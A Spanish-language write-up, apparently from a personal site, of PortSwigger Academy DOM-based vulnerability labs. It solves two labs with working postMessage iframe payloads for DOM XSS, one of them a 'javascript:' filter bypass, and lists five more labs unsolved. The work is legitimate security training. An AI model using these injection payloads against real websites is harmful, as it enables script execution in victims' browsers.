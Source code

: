 ```yaml
---
layout: default
title: "DOM-based vulnerabilities - PortSwigger"
permalink: /dom-based-ps/
---
```


# DOM-based vulnerabilities - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en el siguiente link.

[https://portswigger.net/web-security/dom-based](https://portswigger.net/web-security/dom-based)

## Índice

## 1. Lab: DOM XSS using web messages

```
Esta práctica de laboratorio demuestra una vulnerabilidad de mensaje web simple. Para resolver esta práctica de laboratorio, use el servidor de explotación para publicar un mensaje en el sitio de destino que haga que print() se llame a la función.
```

Para resolver esta laboratorio empezamos buscando el código javascript que edita el DOM en el sitio web.

```html
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

Como podemos ver en el código, el sitio web recibe el mensaje mediante el evento addEventListener, y este lo ingresa dentro de un elemento con Id **ads**.

```html
<!-- Ads to be inserted here -->
<div id='ads'>
</div>
```

Entonces, crearemos un iframe en nuestro exploit server para enviar un mensaje desde este a la web objetivo.

```html
<style>
	#target{
		width:1280px;
		height:1280px;
	}
</style>
<iframe id='target' src='https://0a59002d04f446f88211bae700fb0094.web-security-academy.net/' onload="this.contentWindow.postMessage('mensaje de prueba','*')">
```

Luego verificamos en el server exploit que se muestre nuestro mensaje en el iframe del sitio objetivo.

![](img1.png)

Como podemos ver, se refleja nuestro texto de prueba en el sitio web, entonces lo que haremos sera ingresar una etiqueta HTML que genere un ataque XSS para ejecutar la función print().

```html
<img src=x onerror=print()>
```

Entonces, nuestro payload en el exploit server quedaria de la siguiente manera:

```html
<style>
	#target{
		width:1280px;
		height:1280px;
	}
</style>
<iframe id='target' src='https://0a59002d04f446f88211bae700fb0094.web-security-academy.net/' onload="this.contentWindow.postMessage('<img src=x onerror=print()>','*')">
```

Como podemos ver, al ingresar a nuestro exploit server evidenciamos la opción de imprimir lo cual significa que se logro explotar el payload XSS.

![](img2.png)

Entonces, luego de que verificamos la validez del payload, lo enviamos a la victima y validamos que el laboratorio se haya resuelto.

![](img3.png)


## 2. Lab: DOM XSS using web messages and a JavaScript URL

```
Esta práctica de laboratorio demuestra una vulnerabilidad de redirección basada en DOM que se activa mediante la mensajería web. Para resolver esta práctica de laboratorio, construya una página HTML en el servidor de explotación que aproveche esta vulnerabilidad y llame a la print()función.
```

Para resolver esta laboratorio empezamos buscando el código javascript que edita el DOM en el sitio web.

```html
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

Entonces, podemos ver que el sitio web objetivo obtiene el dato enviado por el mensaje de un sitio web y actualiza con este el valor de la variable location.href, pero como podemos el codigo javascript anterior valida que el mensaje que es enviado contenga el string **http:** o **https:** en su contenido.

Entonces, lo que haremos en primer lugar sera crear un payload que pueda ejecutar código javascript mediante la variable location.href.

Entonces, por laboratorios anteriores de xss, sabe que podemos usar como url el siguiente payload:

```html
javascript:alert(1);
```

Lo cual cargara un alert de javascript cuando este sea enviado a la url del navegador. Esto ocurre porque estamos especificando al navegador que luego de **javascript:** todo el contenido siguiente sea interpretado como código javascript.

Ahora, debemos agregar el string **http:** y la función print() que nos pide el laboratorio, asi que luego de ejecutar la función print, generamos un comentario con el string para que evada la protección.

```javascript
javascript:print();//http:
```

Entonces, nuestro payload final para el exploit server seria el siguiente:

```html
<style>
	#target{
		width:1280px;
		height:1280px;
	}
</style>
<iframe id='target' src='https://0a04005c0351f02a88752b7500e600cc.web-security-academy.net/' onload="this.contentWindow.postMessage('javascript:print();//http:','*')">
```

Entonces, luego de que verificamos la validez del payload, lo enviamos a la victima y validamos que el laboratorio se haya resuelto.

![](img4.png)

## 3. Lab: DOM XSS using web messages and JSON.parse

```
Este laboratorio usa mensajería web y analiza el mensaje como JSON. Para resolver el laboratorio, construya una página HTML en el servidor de explotación que aproveche esta vulnerabilidad y llame a la print() función.
```

## 4. Lab: DOM-based open redirection

```
Este laboratorio contiene una vulnerabilidad de redirección abierta basada en DOM. Para resolver este laboratorio, aproveche esta vulnerabilidad y redirija a la víctima al servidor de explotación.
```

## 5. Lab: DOM-based cookie manipulation

```
Este laboratorio demuestra la manipulación de cookies del lado del cliente basada en DOM. Para resolver este laboratorio, inyecte una cookie que cause XSS en una página diferente y llame a la print()función. Deberá usar el servidor de explotación para dirigir a la víctima a las páginas correctas.
```

## 6. Lab: Exploiting DOM clobbering to enable XSS

```
Este laboratorio contiene una vulnerabilidad DOM-clobbering. La funcionalidad de comentarios permite HTML "seguro". Para resolver este laboratorio, construye una inyección HTML que clobbers una variable y utiliza XSS para llamar a la función alert().
```

## 7. Lab: Clobbering DOM attributes to bypass HTML filters

```
Este laboratorio utiliza la biblioteca HTMLJanitor, que es vulnerable al DOM clobbering. Para resolverlo, construye un vector que evite el filtro y utilice el DOM clobbering para inyectar un vector que llame a la función print(). Puede que necesites utilizar el servidor de exploits para hacer que tu vector se auto-ejecute en el navegador de la víctima.
```